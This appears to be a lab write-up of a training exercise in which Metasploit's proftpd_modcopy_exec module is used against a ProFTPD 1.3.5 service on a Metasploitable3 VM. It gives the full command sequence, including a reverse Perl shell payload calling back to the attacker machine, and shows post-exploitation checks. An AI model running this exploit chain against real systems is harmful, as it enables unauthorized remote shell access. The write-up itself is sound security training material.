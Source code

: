 # Phase 1: Service Compromise
---

## ✅ Task 1.1: Exploiting the Service Using Metasploit

---
## ✅ Step 1: Environment Setup

- **Victim VM**: Metasploitable3
- **Attacker VM**: Kali Linux
- **Network Type**: Host-Only
- **Victim IP**: 192.168.168.129
- **Tool Used**: Metasploit
- **Vulnerable Service To Exploit**: FTP

## ✅ Step 2: Service Enumeration using Nmap

An Nmap scan was performed to identify open services on the victim machine.

### Command:

```bash
nmap -sV 192.168.168.129
```

The scan revealed several open ports, including FTP (ProFTPD 1.3.5) on port 21, which was chosen as the target for this phase.

 
![Nmap Scan](./metasploit_screenshots/nmap_scan.png)

## ✅ Step 3: Identifying the Vulnerable FTP Service

After discovering that port 21 was open and running **ProFTPD 1.3.5**, Metasploit was used to search for known exploits targeting this specific version of the FTP service.

### 🔧 Metasploit Search Command:

```bash
search proftpd type:exploit
```

This returned several results. Among them, the following module was selected as the most suitable for our target:

Module: exploit/unix/ftp/proftpd_modcopy_exec

Rank: Excellent

Description: This exploit leverages the SITE CPFR/CPTO commands provided by the ProFTPD mod_copy module (enabled by default in 1.3.5). It allows remote attackers to copy a malicious PHP file into the web server directory, which can then be executed to obtain a reverse shell.

![Search result](./metasploit_screenshots/search_proftp.png)

## ✅ Step 4: Exploitation via Metasploit

The following commands were used to exploit the FTP service:

## 🔧 Exploit Configuration

1. **Set the Exploit Module:**

    ```bash
    use exploit/unix/ftp/proftpd_modcopy_exec
    ```

2. **Set the Target Host:**

    ```bash
    set RHOSTS 192.168.168.129
    ```

3. **Set the FTP Port (default 21):**

    ```bash
    set RPORT 21
    ```

4. **Set the Site Path (Web Root):**

    ```bash
    set SITEPATH /var/www/html
    ```

5. **Set the Payload:**

    ```bash
    set payload cmd/unix/reverse_perl
    ```

6. **Set the Attacker's IP (LHOST):**

    ```bash
    set LHOST 192.168.168.128
    ```

7. **Launch the Exploit:**

    ```bash
    exploit
    ```


Result:
* The exploit successfully copied a malicious PHP payload into the web server's root directory.
* Triggering the payload resulted in a reverse shell being established on the attacker's machine.

### Post-Exploitation Verification

Once the reverse shell was successfully established, the following commands were executed to confirm the current access level and working directory:

1. **Check the current user:**
    ```bash
    whoami
    ```

2. **Check the present working directory:**
    ```bash
    pwd
    ```
3. **Check the network configuration:**
    ```bash
    ifconfig
    ```
**Result:**
- **User:** `www-data`
- **Directory:** `/var/www/html`
- **Network Configuration::** eth0      Link encap:Ethernet  HWaddr 00:0c:29:c3:36:e6
          inet addr:192.168.168.129  Bcast:192.168.168.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fec3:36e6/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:4799 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1265 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:926496 (926.4 KB)  TX bytes:219157 (219.1 KB)
          
![reverse shell](./metasploit_screenshots/reverse_shell.png)
